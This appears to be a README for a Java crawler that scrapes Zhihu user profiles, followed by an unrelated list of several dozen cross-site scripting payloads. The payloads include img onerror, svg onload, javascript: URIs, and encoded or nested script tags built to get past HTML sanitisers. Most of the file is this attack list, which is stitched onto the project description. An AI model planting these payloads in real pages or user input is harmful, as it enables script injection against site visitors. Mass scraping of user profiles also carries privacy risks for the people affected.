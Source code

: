 # JavaZhiHuSpider
### java知乎爬虫：爬取用户信息 已爬10w（理论能爬完所有关注了任意话题的用户信息）
### 没有使用框架,httpclient连接池+线程池+正则实现.
 
### 厚颜无耻的挂上博客[HacL](http://yhis.me)+求波星 :）
<img src="test.jpg" alt ="``onload=xss()" />
<pkav xmlns="><iframe onload=alert(1)">123</pkav>
<p style="font-family:'ar\27 \3bx\3a expression\28xss\28\29\29\3bial';"></p>
<img src=1 style="font-fam\22onerror\3d alert\28 1\29\20 ily:'aaa';">
<listing><img src=1 onerror=alert(1) &</listing>
<form action=javascript:alert('xss')>
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<svg onload=alert(1)>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
"><STYLE>@import"javascript:alert(2628)";</STYLE>
>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;alert(2629)>
>%22%27><img%20src%3d%22javascript:alert(2630)%22>
'%uff1cscript%uff1ealert(2631)%uff1c/script%uff1e'
<IMG SRC="javascript:alert(2633);">
<IMG SRC=javascript:alert(2634)>
<IMG SRC=JaVaScRiPt:alert(2635)>
<IMG SRC=JaVaScRiPt:alert(2636)>
<IMG SRC="jav&#x0A;ascript:alert(2640);">
<IMG SRC="jav&#x0D;ascript:alert(2641);">
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert(2643);<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<script>alert(2649)</script>
%3cscript%3ealert(2650)%3c/script%3e
%22%3e%3cscript%3ealert(2651)%3c/script%3e
<IMG SRC="javascript:alert(2652);">
<IMG SRC=javascript:alert(2653)>
<IMG SRC=javascript:alert(2654)>
<img src=xss onerror=alert(2655)>
<IMG """><SCRIPT>alert(2656)</SCRIPT>">
<IMG SRC=javascript:alert(2657))>
<IMG SRC="jav ascript:alert(2658);">
<IMG SRC="jav&#x09;ascript:alert(2659);">
<BODY BACKGROUND="javascript:alert(2663)">
<BODY ONLOAD=alert(2664)>
<INPUT TYPE="IMAGE" SRC="javascript:alert(2665);">
<IMG SRC="javascript:alert(2666)"
<<SCRIPT>alert(2668);//<</SCRIPT>
%253cscript%253ealert(2669)%253c/script%253e
"><s"%2b"cript>alert(2670)</script>
foo<script>alert(2671)</script>
<scr<script>ipt>alert(2672)</scr</script>ipt>
';alert(2674))//\';alert(2674))//";alert(2674))//\";alert(2674))//--></SCRIPT>">'><SCRIPT>alert(2674))</SCRIPT>
<marquee onstart='javascript:alert(2675);'>=(◕_◕)=
</span></span><svg onload="alert(2676)//“ #"="">
<q/oncut=alert(2677)>
<title><img src="</title><script>alert(2678)</script>">
<iframe><img src="</iframe><img src=x onerror=alert(2679)//">
